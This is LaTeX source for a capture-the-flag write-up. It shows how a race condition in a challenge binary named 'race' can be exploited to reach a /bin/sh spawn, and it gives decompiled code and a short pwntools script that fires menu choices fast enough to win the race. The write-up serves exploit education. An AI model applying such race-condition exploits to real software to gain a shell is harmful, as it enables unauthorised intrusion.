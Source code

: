 \documentclass{article}
\newcommand{\code}[1]{\lstinline|#1|}
\begin{document}
\begin{lstlisting}[language=bash]
  if (a < b) {
    apcStack_2c[0] = "Win!";
    ppcVar3 = apcStack_2c;
    FUN_00011130();
    apcStack_2c[0] = "/bin/sh";
    FUN_00011140();
    apcStack_2c[0] = (char *)0x0;
    FUN_00011150();
  }
  \end{lstlisting}

We note that \code{menu_chance} is called through spawning another thread and
this is likely where the race condition can be exploited. We can see that there
is a check for \code{flag==1} and since this is not a protected variable,
assuming that \code{b<a} then we can call \code{menu_chance} again and still
get to set \code{a_sleep=1}.

Now we can formulate our attack. We first call \code{menu_go} and we will
having \code{a=5} and \code{b=2} we will call \code{menu_chance}, allowing us
to update \code{a_sleep=1}, we quickly call \code{menu_go} to update \code{b=4}
and before the first thread for \code{menu_chance} updates \code{flag}, we call
\code{menu_chance} again, allowing us to set \code{a_sleep=1} once again. Now,
we can call \code{menu_go} one more time, setting \code{b=6}. With that, we can
now call \code{menu_test} allowing us to fulfill the check condition.

\begin{lstlisting}[language=python]
  from pwn import *

  race = process('./race')
  # wait for prompt for choice 1
  race.recvregex(b'>')
  # send choice 1 go
  race.sendline(b'1')
  # wait for prompt for choice 2
  race.recvregex(b'>')
  # send choice 2 chance
  race.sendline(b'2')
  # wait for prompt for choice 3
  race.recvregex(b'>')
  race.sendline(b'1')
  race.recvregex(b'>')
  race.sendline(b'2')
  race.recvregex(b'>')
  race.sendline(b'1')
  race.recvregex(b'>')
  # send choice 3 test
  race.sendline(b'3')
  # wait for response
  print(race.recvline())
\end{lstlisting}

we create a python program that aids us in calling the required choices fast
enough such that the race condition happens. Running the above python code
allows us to `win' the CTF. Running the above in python3 with pwntools package
installed will allow us to run the exploit successfully.
\end{document}
